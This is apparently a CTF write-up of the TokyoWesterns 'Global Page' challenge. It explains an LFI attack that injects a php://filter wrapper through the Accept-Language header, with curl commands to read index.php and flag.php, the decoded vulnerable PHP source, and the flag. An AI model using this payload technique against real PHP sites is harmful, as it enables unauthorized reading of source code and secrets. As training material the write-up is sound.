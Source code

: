 # Global Page WriteUp

The "quest" begin with a link wihtout any hint or sentence: [link to Global Page.](http://globalpage.chal.ctf.westerns.tokyo/)

![Landing page](images/Globalpageindex.png)
The Landing Page show one deleted and two followable links.

Trying to follow ctf or tokyo, the browser makes a GET request to a php as parameter(page) the followed link(ctf or tokyo) -> `http://globalpage.chal.ctf.westerns.tokyo/?page=ctf` or `http://globalpage.chal.ctf.westerns.tokyo/?page=tokyo`.


![Page](images/page.png)

Mh! Warning: include() => suggest with high probability a **LFI** attack.
Before continue one consideration: the include function try to open a file in the page parameter directory with the language specified in the Accept-Language Header Request.

Every LFI page parameter results in a correctly input sanity check(escape . and /).

What can we do? Attach a LFI in the Accept-Language and build the properly LFI.

`curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=index"` => `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=index` that encode the index.php in base64.

Decode the base64 index.php and obtain:
```
<?php
if (!defined('INCLUDED_INDEX')) {
define('INCLUDED_INDEX', true);
ini_set('display_errors', 1);
include "flag.php";
?>
<!doctype html>
<html>
<head>
<meta charset=utf-8>
<title>Global Page</title>
<style>
.rtl {
  direction: rtl;
}
</style>
</head>

<body>
<?php
$dir = "";
if(isset($_GET['page'])) {
	$dir = str_replace(['.', '/'], '', $_GET['page']);
}

if(empty($dir)) {
?>
<ul>
	<li><a href="/?page=tokyo">Tokyo</a></li>
	<li><del>Westerns</del></li>
	<li><a href="/?page=ctf">CTF</a></li>
</ul>
<?php
}
else {
	foreach(explode(",", $_SERVER['HTTP_ACCEPT_LANGUAGE']) as $lang) {
		$l = trim(explode(";", $lang)[0]);
?>
<p<?=($l==='he')?" class=rtl":""?>>
<?php
		include "$dir/$l.php";
?>
</p>
<?php
	}
}
?>
</body>
</html>
<?php
}
?>
```

_include "flag.php"_, so one more time LFI:
`curl 'http://globalpage.chal.ctf.westerns.tokyo/?page=php:' -H "Accept-Language:/filter/convert.base64-encode/resource=flag"` => `http://globalpage.chal.ctf.westerns.tokyo/?page=php://filter/convert.base64-encode/resource=flag`.

Decode base64 and woitlà:

```pirate$ echo "PD9waHAKJGZsYWcgPSAiVFdDVEZ7SV9mb3VuZF9zaW1wbGVfTEZJfSI7Cg" | base64 -D -
<?php
	$flag = "TWCTF{I_found_simple_LFI}";
```








